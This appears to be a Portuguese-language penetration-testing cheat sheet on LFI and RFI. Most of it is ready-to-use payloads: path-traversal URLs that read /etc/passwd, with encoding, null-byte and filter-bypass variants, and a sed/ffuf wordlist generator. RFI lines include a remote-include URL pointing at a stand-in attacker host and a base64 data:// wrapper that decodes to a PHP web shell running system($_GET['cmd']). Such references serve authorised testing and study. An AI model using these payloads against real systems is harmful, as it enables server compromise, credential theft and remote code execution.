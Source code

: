 ## LFI 
<p>A vulnerabilidade de Local File Inclusion (LFI) surge da utilização insegura de parâmetros HTTP para controle de conteúdo em aplicações web, prática comum em linguagens como PHP, Node.js e Java. Frameworks frequentemente usam templates para incluir dinamicamente conteúdos com base em parâmetros da URL, como em chamadas do tipo /index.php?page=about. Quando esses parâmetros são passados diretamente para funções como include() sem validação, atacantes podem explorar essa falha para incluir arquivos locais sensíveis, como /etc/passwd ou arquivos de configuração. Essa exposição pode revelar código-fonte e credenciais, facilitando ataques mais graves como SQL Injection ou escalonamento de privilégios. Em ambientes mal configurados, LFI pode evoluir para execução remota de código, comprometendo completamente o servidor e possibilitando movimentação lateral e persistência.</p>

## RFI
<p>Quando uma função vulnerável nos permite incluir arquivos remotos, podemos hospedar um script malicioso e incluí-lo na página vulnerável para executar funções maliciosas e obter execução remota de código. No PHP é necessário que o parâmetro allow_url_include esteja habilitado, o padrão é estar desabilitado. </p>

:fries: Checklist
- observe os campos das requisições em todos os métodos HTTP
- observe nos campos das requisições o tipo de informação usada 
- observe como a informação transmitida nos campos é processada
- observe funções de upload
- modifique o valor de um campo na requisição e observe como a aplicação responde
- adicione no campo payloads de LFI
- adicione no campo url para validar RFI
- crie um arquivo com código executável e faça o upload na aplicação
- procure acessar o arquivo para executar o código 

#### LFI Básico
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

```

#### Null Byte (%00)
```http://example.com/index.php?page=../../../etc/passwd%00```

#### Encoding
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

#### LFI a partir de diretórios existentes
```
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```

#### Deep
- depth of 3
```
http://example.com/index.php?page=../../../etc/passwd # depth of 3
```
- depth of 4
```
http://example.com/index.php?page=private/../../../../etc/passwd # we went deeper down one level, so we have to go 3+1=4 levels up to go back to /etc/passwd
```

### Gerar wordlist de LFI a partir de uma wordlist existente
```
# 1
sed 's_^_../../../var/www/_g' /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt | sed 's_$_/../../../etc/passwd_g' > payloads.txt

# 2
ffuf -u http://example.com/index.php?page=FUZZ -w payloads.txt -mr "root"
```

#### Path Trucation
```
In PHP: /etc/passwd = /etc//passwd = /etc/./passwd = /etc/passwd/ = /etc/passwd/.
Check if last 6 chars are passwd --> passwd/
Check if last 4 chars are ".php" --> shellcode.php/.
```
```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.

#With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)
# | Sempre testar adicionando um diretório falso a/ Essa vulnerabilidade foi corrigida no PHP 5.3

http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```

#### Filter Bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```

### RFI
```
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```
<p>Se por algum motivo allow_url_include estiver ativado, mas o PHP estiver filtrando o acesso a páginas externas, você pode usar, por exemplo, o wrapper data com base64 para decodificar um código PHP base64 e egt RCE:</p>
[Ref.:](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/)

```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt

data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

### Parâmetro para testar LFI
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```
